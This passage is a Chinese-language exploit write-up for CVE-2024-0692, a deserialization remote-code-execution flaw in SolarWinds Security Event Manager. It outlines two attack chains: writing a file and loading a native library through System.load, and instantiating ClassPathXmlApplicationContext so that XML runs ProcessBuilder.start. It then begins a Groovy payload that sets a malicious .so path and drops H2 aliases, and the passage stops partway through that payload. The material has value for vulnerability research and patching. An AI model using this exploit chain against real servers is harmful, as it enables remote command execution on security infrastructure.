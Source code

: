 [![](assets/1709614880-ac36d54e9ca97c60eb2c1c1365a276f7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240304191530-82a0a3c4-da18-1.png)

直接给出我的两种利用思路:

写文件 + System.load

1.  利用 File.createTempFile 创建临时文件
2.  利用 commons-io 的 FileUtils 分块写文件
3.  利用 commons-beanutils 的 MethodUtils 反射调用实例/静态方法
4.  利用 System.load 加载动态链接库

ClassPathXmlApplicationContext

1.  利用 commons-beanutils 的 ConstructorUtils 实例化 ClassPathXmlApplicationContext
2.  XML 内调用 ProcessBuilder.start 执行命令

### File Write + System.load

payload (Groovy)

```plain
import javax.naming.Reference
import javax.naming.StringRefAddr

// SolarWinds Security Event Manager AMF Deserialization RCE (CVE-2024-0692)
// file write + System.load

def prefix = 'test'
def lib_path = '/Users/exp10it/exp.so'

def list = []

// drop the previous alias if exists
list << "DROP ALIAS IF EXISTS CREATE_FILE"
list << "DROP ALIAS IF EXISTS WRITE_FILE"
list << "DROP ALIAS IF EXISTS INVOKE_METHOD"
```